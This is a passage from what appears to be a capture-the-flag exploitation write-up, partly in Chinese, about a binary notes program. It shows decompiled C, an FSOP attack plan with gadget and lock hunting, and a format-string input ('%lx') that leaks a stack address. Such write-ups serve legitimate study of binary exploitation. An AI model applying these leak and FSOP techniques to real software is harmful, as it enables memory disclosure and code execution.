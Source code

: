 ```cpp
    if ( !v11 )
      break;
    v6 = sprintf(&s[v5], "----------------------\n") + v5;
    v7 = sprintf(&s[v6], "## Author: %s", *v11) + v6;
    v8 = sprintf(&s[v7], "### Note: %s", v11[3]) + v7;
    v5 = sprintf(&s[v8], "----------------------\n\n") + v8;
  }
  v0 = fp;
  v1 = strlen(s);
  fwrite(s, 1u, v1, v0);
  puts("Anything else you would like to add?");
  printf("> ");
  read(0, s + 5280, 0x1F4u);
  v2 = fp;
  v3 = strlen(s + 5280);
  fwrite(s + 5280, 1u, v3, v2);
  free(s);
  fclose(fp);
  return puts("Saved notes successfully in file: notes.md");
}
```

FSOP
leak libc 
leak heap + 0x290 
找_IO_stdfile_1_lock 
找 add rdi, 0x10 ; jmp rcx
套公式
找 heap buffer offset -> chunk data size (用parseheap 来看)
save fwrite !!!!!
# 3.0 Solution

## 3.1 leak libc 
这个 好像不难 因为是 format string 
```
Choice: 1
What is the nickname of the author of this note?
> %lx
Input your note: 
> abc
Do you want to password-protect this note?(y/n)
> n
Note 2 taken successfully!

---------------
1 - Create Note
2 - Change Note
3 - Print Note
4 - Delete Note
5 - Save Notes
6 - Exit
---------------

Choice: 3
Which note do you want to see?
> 2

----------------------
Author: 7fffffffbae0
Note: abc
----------------------
```
